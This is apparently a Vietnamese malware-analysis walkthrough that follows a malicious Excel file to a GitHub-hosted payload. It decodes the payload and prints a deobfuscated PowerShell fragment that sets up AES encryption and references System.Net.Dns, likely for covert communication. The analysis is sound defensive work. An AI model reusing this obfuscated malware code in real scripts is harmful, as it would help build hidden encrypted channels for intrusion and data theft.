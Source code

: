 ![image](https://github.com/user-attachments/assets/094485db-9840-4f81-8a4c-a4950c2037b1)

Thấy đc chính là các thông báo khi mình ấn vô xem trực tiếp file excel kia

Quay lại vấn đề chính là link github kia và đây là nội dung

![image](https://github.com/user-attachments/assets/1ef52a58-0439-4ff4-81e0-570b1a3c69f4)

decode cái này mình dùng cyberchef cho đơn giản

![image](https://github.com/user-attachments/assets/8dc2022d-b344-4c37-9b39-d06597630b51)

Thấy một đoạn mã pwsh bị obfuscated, dùng powerdecode để làm đẹp hơn

![image](https://github.com/user-attachments/assets/e5a89ce2-1de9-48ea-8adf-4127c8bad879)

Kết quả:

```powershell
${8rT3WA}  = [tyPe]'sySTEm.seCUrItY.cryPTOGRaphY.CiphERMOde' ;SV '72j5O'  (  [TYpe]'sYstem.seCuriTY.cRYptoGRapHY.paDDingmOde'  ) ;   ${XNfD}=[tyPe]'System.cONVErT'  ;  ${HLvW1} =  [tYPe]'SYStEM.tEXt.EnCOdiNG';  SeT-iTem 'vARIabLE:92y7'  (  [Type]'SysteM.NEt.dnS')  ; ${UJXRc}=[tyPE]'StrinG' ;function CrEATe-AeSmanAGeDoBJeCt(${vxZTmff}, ${5TMRWpLUy}) {
    
    ${AJuJVRAZ99}           = New-Object 'System.Security.Cryptography.AesManaged'
    ${AJUjvrAZ99}.Mode      =   (  gEt-vARIAblE  ("8rt3Wa") -Value  )::"cBc"
    ${aJujVRAZ99}.PAddInG   =  ( Dir  'vARIable:72j5o'  ).VALUe::"zeRos"
    ${AJUJvrAz99}.BlOckSizE = 128
    ${AjuJvRAz99}.keysIze   = 256
    
    if (${5TMRWPluy}) {
        
        if (${5TmRWpLuy}.getType.iNVOke().nAME -eq 'String') {
            ${ajUjvRaZ99}.Iv =  (dir  'vaRIaBle:xNFd').vAlUe::'FromBase64String'.InVOKe(${5TMRWPlUy})
        }
        
        else {
            ${ajUjVraZ99}.IV = ${5tmRwPLUy}
        }
    }
    
    if (${VxZtMFF}) {
        
        if (${VXzTmfF}.getType.INvoKe().nAME -eq 'String') {
            ${ajUjVraZ99}.Key =  ( LS 'VariAble:XNFD' ).vAluE::'FromBase64String'.invOKe(${vxzTmFF})
        }
        
        else {
            ${AjUJVrAZ99}.key = ${vXzTmff}
        }
    }
    
    ${aJUjvRAZ99}
}
function eNCRYpT(${VxzTMFf}, ${ROFPdqRF99}) {
    
    ${ByTES}             =   (  varIable  'hlvW1' ).vALUE::"uTf8".GetBytes.INVokE(${rOFpdQRF99})
    ${ajujVRAZ99}        = Create-AesManagedObject ${VXZtMFf}
    ${qDIqLGaQ99}         = ${aJujVRAZ99}.CreateEncryptor.inVoKe()
    ${lwihYmIF99}     = ${QdiqLgaq99}.TransformFinalBlock.iNvOKe(${byTeS}, 0, ${byTes}.LeNgTh);
    [byte[]] ${fJAxUWQN99} = ${AJujvRAz99}.Iv + ${lWiHYmiF99}
    ${ajUJVRAZ99}.Dispose.iNVOKE()
     ${xNFd}::"tOBase64STRiNG".iNvoke(${FjAXUWqN99})
```